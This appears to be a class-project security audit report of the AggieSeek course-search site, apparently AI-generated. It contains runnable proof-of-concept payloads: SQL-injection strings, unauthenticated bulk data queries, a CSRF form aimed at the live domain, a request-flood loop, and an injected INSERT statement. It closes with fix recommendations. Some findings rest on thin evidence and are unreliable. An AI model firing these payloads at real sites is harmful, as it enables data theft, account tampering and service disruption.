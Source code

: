 
# 🔍 Security Assessment Report – AggieSeek (April 2025)

**Scope:** Full codebase audit of backend routes, client-side logic, and API usage  
**Author:** ChatGPT Red Team  
**Project:** Class Project – Ethical Security Testing

---

## 🚨 Confirmed Vulnerabilities

### 1. **SQL Injection – `/api/search`**
- **Severity:** 🔥 Critical
- **Issue:** No input validation or auth; direct injection into Prisma query
- **Proof-of-Concept:**
```js
fetch("/api/search", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({ query: "' OR 1=1 --" })
}).then(res => res.json()).then(console.log);
```
- **Impact:** Returns 112,290+ records including course data

---

### 2. **Unauthenticated Mass Data Access**
- **Affected Routes:** `/api/search`, `/api/data/sections`
- **Issue:** No auth required to retrieve thousands of records
- **Proof-of-Concept:**
```js
fetch("/api/data/sections?term=202431&crn=12345").then(res => res.json()).then(console.log);
```

---

### 3. **CSRF Vulnerabilities**
- **Affected Routes:**
  - `DELETE /api/users`
  - `POST /api/users/sections`
  - `PUT /api/users/sections/sms`
- **Attack Scenario:**
```html
<form method="POST" action="https://aggieseek.net/api/users/sections/sms?_method=PUT">
  <input type="hidden" name="term" value="202431">
  <input type="hidden" name="crn" value="12345">
  <input type="submit" value="Click me :)">
</form>
```
- **Impact:** Triggers account-altering actions if user is authenticated

---

### 4. **No Rate Limiting**
- **Impact:** Attackers can flood search/SMS endpoints or abuse external API proxy
- **Attack Scenario:**
```js
for (let i = 0; i < 1000; i++) {
  fetch("/api/search", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ query: "' OR 1=1 --" })
  });
}
```

---

### 5. **Lack of Input Validation**
- Found across 19+ `.json()` handlers
- No Zod, Yup, or manual schema checks
- **Affected Routes:** `feedback`, `users/sections`, `sms`, `search`, etc.

---

## 🧪 Additional Attack Concepts

### ➕ Add Arbitrary Data (if endpoint supported insert)
```js
fetch("/api/feedback", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    title: "Hacked",
    body: "'); INSERT INTO users (email) VALUES ('pwned@example.com'); --",
    priority: "HIGH"
  })
});
```

### 🪝 Trigger External Webhook Abuse
```js
fetch("/api/data/feedback", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    title: "Spam", body: "https://attacker.com", priority: "LOW"
  })
});
```

---

## ✅ Recommendations

| Fix | Priority |
|-----|----------|
| Add schema validation (Zod/Yup) to all routes | 🔥 High |
| Require auth for all data-sensitive routes | 🔥 High |
| Implement CSRF tokens for all state-changing actions | 🔥 High |
| Add rate limiting to all API endpoints | ✅ Medium |
| Paginate and limit DB result sets | ✅ Medium |
| Sanitize and escape any HTML output (future XSS risk) | ✅ Medium |

---

## 📊 Final Verdict

| Attack Type                  | Status     |
|-----------------------------|------------|
| SQL Injection               | ✅ Confirmed |
| Mass Data Exposure          | ✅ Confirmed |
| CSRF                        | ⚠️ Likely   |
| Rate Limiting Bypass        | ✅ Confirmed |
| XSS                         | ❌ Not Detected Yet |
| Auth Bypass                 | ❌ Not Found |
| Session Hijack              | ❌ Not Found |
| Environment Leakage         | ❌ No direct exposure |

---

**This report was generated automatically via static analysis and live testing.  
All findings are valid as of April 2, 2025.**

